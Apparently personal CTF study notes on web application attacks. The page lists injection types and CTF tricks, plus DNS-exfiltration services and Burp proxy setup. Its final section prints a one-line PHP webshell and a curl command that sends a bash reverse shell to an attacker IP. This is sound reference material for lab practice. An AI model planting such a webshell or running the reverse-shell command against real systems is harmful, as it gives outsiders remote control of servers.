 # Web Application Attacks Main
[TOC]
###### tags: `Security` `Web`

# Reference
[PORTSWIGGER - Web Security Academy](https://portswigger.net/web-security)

* php
* weak password
* insecure direct object references
    * /user/getAccount
    * /admin/getAccount
* injection
    - Command Injection
    - CRLF Injection
    - SQL Injection / NoSQL Injection
    - XPath Injection
    - Template Injection

[Kaibro - Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)

[CTF比赛总是输？你还差点Tricks!](https://docs.google.com/presentation/d/1Cx0vI2Mzy0zwdTrgic3S3TwGMCpH-QhMUdHU1r3AYfI)
1. 爆破，包括md5、爆破隨機數、驗證碼識別等
2. 繞WAF，包括花式繞MySQL、繞文件讀取關鍵詞檢測之類攔截
3. 花式玩弄幾個PHP特性，包括弱類型，反序列化+destruct、\0截斷、iconv截斷
4. 密碼題，包括hash長度擴展、亦或、移位加密各種變形、32位隨機數過小、隨機數種子可預測等
5. MySQL類型差異、包括和PHP弱類型類似的特性,0x、0b、0e之類，varchar和integer相互轉換，非strict模式截斷等
6. open_basedir、disable_function花式繞過技巧，包括dl、mail、imagick、bash漏洞、Directorylterator及各種二進制選手差足的方法
7. 條件競爭，包括競爭刪除前生成shell、競爭數據庫無鎖多扣錢
8. 社交攻擊，包括查whois
9. windows特性，包括短文件名、IIS解析漏洞、NTFS文件系統通配符、`::$DATA`、冒號截斷
10. 協議，花式IP偽造 X-Forwarded-For/X-Client-IP/X-Real-IP/CDN-Src-IP、花式改UA、花式藏FLAG、花式分析數據包

# Tools
## DNSBIN
[GitHub - ettic-team/dnsbin](https://github.com/ettic-team/dnsbin): [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)
[GitHub - mxcxvn/requestbin.net](https://github.com/mxcxvn/requestbin.net): [requestbin.net/dns](http://requestbin.net/dns)
有時候可以把要 leak 的東西放在 subdomain，像是 leak.wildfoo.tw，這樣受害主機在做 DNS 查詢的時候，就會把資料帶給 DNS Server

## Webhook
[GitHub - fredsted/webhook.site](https://github.com/fredsted/webhook.site): [webhook.site](https://webhook.site/)

## Web Proxy Tools
### BurpSuite
* [Python Requests and Burp Suite](https://www.th3r3p0.com/random/python-requests-and-burp-suite.html)
```python=
import requests
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.get("https://www.google.com/", proxies=proxies, verify=False)
```
or
```shell=
openssl x509 -inform der -in certificate.cer -out certificate.pem
export REQUESTS_CA_BUNDLE="/path/to/pem/encoded/cert"
export HTTP_PROXY="http://127.0.0.1:8080"
export HTTPS_PROXY="http://127.0.0.1:8080"
```

### OWASP ZAP

## tcpdump
```
tcpdump -i lo -q tcp port 6001 -w -
-i interface
-q Quick output
-w wirte the raw packets to file. "-" means stdout
```

# Misc Attack Technical
## WebShell
`<?php system($_REQUEST["exec"]);?>`
```
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'
```
* [Collection](https://hackmd.io/@WildfootW/BkN7LbLTr#collection)
## Race Condition
## Javascript Prototype Pollution
## CSS Injection
